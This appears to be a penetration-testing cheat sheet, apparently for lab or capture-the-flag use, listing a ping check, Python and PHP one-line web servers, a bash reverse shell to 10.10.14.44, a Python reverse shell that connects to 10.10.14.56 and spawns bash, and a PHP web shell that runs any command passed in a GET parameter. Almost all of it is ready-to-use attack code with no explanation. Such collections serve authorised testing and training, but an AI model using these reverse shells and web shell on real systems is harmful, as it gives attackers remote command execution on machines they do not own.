 PoC
```bash
ping -c 3 <ip>
```

Open WebServer [Python]
```bash
python3 -m http.server <port>
```

Open WebServer [PHP]
```bash
php -S 0.0.0.0:<port>
```

Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/443 0>&1'
```

Python But Bash
```sh
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.56",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```


Web Shell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

